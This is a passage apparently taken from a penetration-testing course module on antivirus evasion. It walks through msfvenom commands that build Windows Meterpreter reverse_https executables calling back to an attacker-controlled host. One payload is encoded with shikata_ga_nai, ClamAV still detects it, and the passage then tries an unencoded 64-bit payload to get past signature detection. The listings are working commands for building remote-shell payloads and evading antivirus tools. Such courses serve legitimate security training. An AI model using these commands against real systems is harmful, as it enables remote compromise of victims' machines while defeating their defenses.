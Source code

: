 > Listing 16 - Listing msfvenom encoders

The _x86/shikata\_ga\_nai_ encoder (highlighted above) is a commonly-used polymorphic encoder[1](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fn-local_id_270-1) that produces different output each time it is run, making it effective for signature evasion.

We'll enable this encoder with the -e option, supplying the name of the encoder as an argument, and we'll supply the other typical options as shown in Listing 17:

```
kali@kali:~$ sudo msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -e x86/shikata_ga_nai -f exe -o /var/www/html/met.exe
...
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 635 (iteration=0)
x86/shikata_ga_nai chosen with final size 635
Payload size: 635 bytes
Final size of exe file: 73802 bytes
Saved as: /var/www/html/met.exe
```

> Listing 17 - Encoding with x86/shikata\_ga\_nai

Since the assembly code has been obfuscated, we'll copy the generated executable to our Windows 10 victim machine and scan it with ClamAV as shown in Listing 18.

```
PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\met.exe
C:\Tools\met.exe: Win.Trojan.Swrort-5710536-0 FOUND
...
```

> Listing 18 - Scanning encoded executable with ClamAV

Based on the output above, ClamAV detected the encoded shellcode inside the executable. This failed because the encoded shellcode must be decoded to be able to run and this requires a decoding routine. This decoding routine itself is not encoded, meaning it is static each time, making the decoder itself a perfect target for signature detection.

Let's try a different approach. Since 64-bit applications have only become popular in recent years, it stands to reason that 64-bit malware and payloads are less common. Perhaps this relative rarity will provide us an advantage.

To test this theory, let's generate a 64-bit Meterpreter without encoding:

```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/met64.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 741 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/met64.exe
```

> Listing 19 - Generating a 64-bit Meterpreter executable
